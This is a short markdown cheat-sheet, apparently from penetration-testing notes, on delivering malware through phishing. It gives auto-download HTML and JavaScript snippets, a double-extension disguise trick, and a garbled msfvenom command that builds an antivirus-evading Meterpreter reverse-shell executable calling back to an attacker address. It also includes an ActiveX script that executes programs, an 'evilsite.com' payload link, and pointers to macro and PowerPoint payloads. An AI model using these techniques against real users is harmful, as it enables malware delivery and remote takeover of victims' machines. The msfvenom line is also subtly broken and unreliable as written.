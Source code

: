 # Social Engineering - Phishing

Gaining initial access to a network is often done using different kinds of social engineering attacks.

## Auto-download a malicious file

The techical part is not really that difficult here. In order to auto-download a file you just add this script to the malicious webpage

```text
<script> document.location.href = 'shell53.exe'; </script>
```

Another way to do it is like this

```text
<html>
<head>
<meta http-equiv="refresh" content="0; url=shell53.exe">
</head>
</html>
```

Of course the user will have to accept to download the file, unless the user has previously checked in the box automatically download. The user must then click the file for it to execute. This is where the social engineering part comes in, you really must trick the user into executing the file.

### Change the filename

Since windows by default remove the filename you can call your file shell.jpg.exe, and once downloaded onto the machine windows will display it as "shell.jpg".

### Embed malicious code in legitimate file

It is however very likely that this will be picked up by a antivirus.

```text
msfvenom -a x86 --platform windows -x nc.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 lhost=53 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o ncMalicious.exe
```

## Autodownload a malicious javascript-file

Just like we can download an exe for a user to can also make that user download a javascript file. Since javascript files can execute commands on windows.

```text
var oShell = new ActiveXObject("Shell.Application");
var commandtoRun = "C:\\Windows\\system32\\calc.exe";
oShell.ShellExecute(commandtoRun,"","","open","1");
```

```text
http://evilsite.com/file.js
```

This code can be modified to greate a wget-script and then download and execute a script.

## Phishing

The most common tool for social engineering is to use Social Engineering Toolkit. SET. It comes as default in Kali. Run it like this:

```text
setoolkit
```

## Spear phishing

## Word/excel makros

An explanation of how to createa malicious makro-wordfile.

[https://www.offensive-security.com/metasploit-unleashed/vbscript-infection-methods/](https://www.offensive-security.com/metasploit-unleashed/vbscript-infection-methods/)

## Embed a executable inside a PowerPoint

You can embed executables inside PowerPoint presentations and then have them execute about animations.

## Reference:

[https://www.youtube.com/watch?v=NTdthBQYa1k](https://www.youtube.com/watch?v=NTdthBQYa1k)

